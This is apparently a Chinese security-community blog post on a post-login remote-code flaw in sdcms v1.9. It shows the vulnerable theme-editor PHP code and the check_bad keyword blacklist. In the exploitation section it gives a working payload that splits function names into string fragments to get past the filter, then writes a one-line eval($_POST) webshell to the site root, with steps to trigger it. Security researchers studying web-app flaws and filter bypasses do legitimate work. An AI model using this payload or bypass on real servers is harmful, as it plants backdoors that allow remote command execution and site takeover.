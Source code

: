 

# sdcms v1.9 后台 getshell - 先知社区

sdcms v1.9 后台 getshell

- - -

\[TOC\]

# 1.前言

上集说到[sdcms v1.9 最新版前台 sql 注入](https://xz.aliyun.com/t/6992 "sdcms v1.9最新版前台sql注入")，通过注入运气好能进后台的话，然后就是 getshell 了。然后看了看后台 controller 目录里的文件，找到了一处可以 getshell 的地方，其实这个漏洞非常简单，就是一处写文件的功能

这个不是 0day 了，找到后发现网上已经有师傅申请了 cve，提交了 cnvd。

cve 编号：CVE-2019-9651  
cnvd 链接：[https://www.cnvd.org.cn/flaw/show/CNVD-2019-07927](https://www.cnvd.org.cn/flaw/show/CNVD-2019-07927)  
这个是针对 v1.7 版本的

cve 编号：CVE-2018-19520  
cnvd 链接：[https://www.cnvd.org.cn/flaw/show/CNVD-2019-05942](https://www.cnvd.org.cn/flaw/show/CNVD-2019-05942)  
这个是针对 v1.6 版本的

仔细搜一下这两个 cve 编号，漏洞其实就是一个漏洞，官方的修复就是一直增加关键字过滤，其实并没有什么用

# 2.漏洞分析

后台 controller 目录里有很多 php 文件都被加密了，看不懂源码，然后也有几个文件没用加密

我是直接全局搜索的 file\_put\_contents(，最终发现在\\app\\admin\\controller\\themecontroller.php 的 162 行左右：  
if(!APP\_DEMO) file\_put\_contents($root,$text);

他是在 edit 函数里，

```bash
public function edit()
    {
        if(IS_POST)
        {
            $dir=$this->decode(F('t0'));
            $dir=str_replace('..','',$dir);
            $root='theme/'.$dir;
            省略……
            $text=self::deal_text($_POST['t2']);
            $data=[[$text,'null','内容不能为空']];
            if(check_bad($text)>0)
            {
                $data=array_merge($data,[[(1>1),'other','请勿提交非法内容']]);
            }
            $v=new sdcms_verify($data);
            if($v->result())
            {
                if(strpos($root,'.php'))
                {
                    $text="<?php if(!defined('IN_SDCMS')) exit;?>".$text;
                }
                if(!APP_DEMO) file_put_contents($root,$text);
                $this->success('保存成功');
                $data="<?php\nif(!defined('IN_SDCMS')) exit;\nreturn ".var_export($name, true).";\n?>";
                if(!APP_DEMO) file_put_contents('theme/'.$theme.'/_note.php', $data);
            }
            else
            {
                $this->error($v->msg);
            }
            $this->add_log($this->msg);
        }
        else
        {
            省略……
        }
    }
```

$root 仅看代码的话感觉有点复杂，还调用了 decode 函数，其实不用管，他就是你编辑的文件名称，网站后台会提供好变量 t0

$data 就是写的内容，经过 check\_bad 处理了

check\_bad 在 app/function.php 的 413 行左右：

```bash
function check_bad($str)
{
    $num=preg_match_all("/(phpinfo|eval|file_put_contents|file_get_contents|passthru|exec|chroot|scandir|proc_open|delfolder|unlink|mkdir|fopen|fread|fwrite|fputs|tmpfile|flock|chmod|delete|assert|_post|_get|_request|_file|create_function|array_walk|preg_replace|cookie)/Ui",$str,$match);
    return $num?$num:0;
}
```

就是你写的内容不能有这么多字符串。其实这么多过滤并没有什么用，我看 v1.7 那个 cve 描述是说什么过滤不严，system 可以用，其实完全没必要，把字符串拆开即可，让他生成个一句话木马

# 3.漏洞利用

先访问 127.0.0.1/sdcms1.9/?m=admin&c=theme&a=index  
点这个管理模板  
就会看到一堆目录及文件，随便点一个 php 文件进去  
我这里点的是 top.php，然后输入以下代码：

```bash
<?php
$a = 'file_p'.'ut_contents';
$data = '<?php ev'.'al($_PO'.'ST[1])?>';
$a("chonger.php",$data);
?>
```

[![](assets/1698897509-e3e56785ba1ebda1d07db26cfc89313c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191225184018-f17e57b4-2702-1.png)  
看吧，这不就没出现任何关键字……然后点下面的保存即可

然后访问一下主页，127.0.0.1/sdcms1.9/，他就会 require 到刚刚修改的文件 top.php，一句话木马 chonger.php 就生成在网站根目录  
[![](assets/1698897509-08381fa567039e3463ccbcbdcf94a439.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191225184145-259f5c46-2703-1.png)

# 4.下集预告

目前正在审计 UsualToolCMS，前台目前感觉过滤很严，不太好整……

后台倒是找到 getshell 了，用处不大，本来就是小众 cms

加把劲再看看尽力把坑给填上，说有下集预告那就肯定有下集

漏洞肯定会是前台的，只有后台 getshell 没有前台的注入我都不会发的，不好玩

UsualToolCMS 万一找不着的话，那就换个 cms 搞

等着吧……
